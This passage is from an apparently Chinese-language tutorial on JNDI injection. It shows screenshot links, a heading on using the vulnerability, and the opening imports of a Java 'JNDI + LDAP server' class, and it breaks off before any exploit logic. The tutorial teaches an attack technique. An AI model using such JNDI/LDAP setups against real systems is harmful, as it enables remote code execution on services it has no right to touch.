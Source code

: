     ![image-20230513150844406](JNDI-Injection.assets/image-20230513150844406.png)

9. 最后结果应该是这样：
    ![image-20230513151606457](JNDI-Injection.assets/image-20230513151606457.png)

### 3.3 漏洞使用

1. JDNI + LDAP 服务端（不想 RMI，执行一次即可）：
    ```java
    package com.endlessshw.server;
    
    import javax.naming.InitialContext;
    import javax.naming.NamingException;
    import javax.naming.Reference;
    import java.rmi.RemoteException;
    